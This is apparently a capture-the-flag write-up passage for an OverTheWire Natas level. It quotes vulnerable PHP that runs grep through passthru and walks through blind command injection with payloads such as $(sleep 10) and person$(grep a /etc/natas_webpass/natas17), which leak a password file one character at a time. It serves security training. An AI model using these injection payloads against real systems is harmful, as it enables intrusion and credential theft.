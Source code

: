 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a1e9d3c8-b88c-41e6-a827-57d8bfd56734)

Viewing the source code we get this php code

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
This code is similar to the one in in level 10, it's just that this code is more secured. It filters out more special characters. One thing I noticed is that it didn't filter out the character ```$```,```)``` and ```(```.

Trying this command ```$(sleep 10)``` made me realize I was dealing with a blind command injection. When you run that command, you'll notice that it'll take the webpage exactly 10 seconds to return an output

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f1b91045-f913-4425-b744-b1169e779f47)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/13ee7026-224b-45c7-b899-49c6e925c524)

We can go ahead to inject code

command:```$(echo person)```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b272aa0e-18ed-4c49-be05-378d29c41503)

If you recall when we solved level 10 we had to check if the character exists in the file, well this is similar

So, does ```/etc/natas_webpass/natas17``` contains the letter ```a```??

To test this we can try the conmand ```person$(grep a /etc/natas_webpass/natas17)``` if the letter is  present in the file the output will be empty, if the letter isn't present the output will be ```person```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5f474b1f-2057-4952-9e84-957700ec4ccb)

As, you can see there's an output 

Lets try for the letter ```b```

command:```person$(grep b /etc/natas_webpass/natas17)```
